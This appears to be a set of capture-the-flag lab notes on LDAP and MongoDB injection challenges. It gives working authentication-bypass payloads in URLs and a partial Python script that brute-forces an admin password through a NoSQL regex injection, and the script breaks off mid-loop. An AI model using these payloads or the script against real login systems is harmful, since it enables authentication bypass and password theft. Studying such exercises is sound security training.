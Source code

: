 exploit:
Remove `username=admin&password=admin` from the POST payload

notes:
- The php authentication via LDAP
- LDAP supports NULL bind auth which would be Ok for the PHP app. 

### 02
chl:
url:
http://ptl-6b15eced-39676f9e.libcurl.st/?name=admin&password=admin

exploit:
`http://ptl-6b15eced-39676f9e.libcurl.st/?name=admin)(cn=*))%00&password=admin`

notes:
- The LDAP auth filter might be `(&(cn=[INPUT1])(userPassword=HASH[INPUT2]))`
- null byte to ignore the rest of filters

## MongoDb injections

### 01
chl:
url:
http://ptl-ff03fd29-88f1b269.libcurl.st/?username=admin&password=admin&submit=Submit

exploit:
`http://ptl-ff03fd29-88f1b269.libcurl.st/?username='|| 1==1 %00&password=admin&submit=Submit`

notes:
- tipical sqli: `' or 1=1 --`
- mongodb sqli: `'|| 1-1 %00`

### 02
chl:
- get admin password

url:
http://ptl-8e00bff4-c65e2d45.libcurl.st/?search=admin

exploit:

source code of the brute-force script:
```python
import sys
import requests
import urllib.parse

def check(reg):
    url = "http://ptl-8e00bff4-c65e2d45.libcurl.st/?search="
    payload = "admin' && this.password.match(/{}/)".format(reg)
    payload = urllib.parse.quote(payload)+"%00"

    url += payload
    pageResponse = requests.get(url)

    if(pageResponse.text.find(">admin<") is not -1):
        return True
    else:
        return False


chars = list(range(0, 10)) + list(map(chr, range(97, 123))) + ["-"]
password = ""

while 1:
```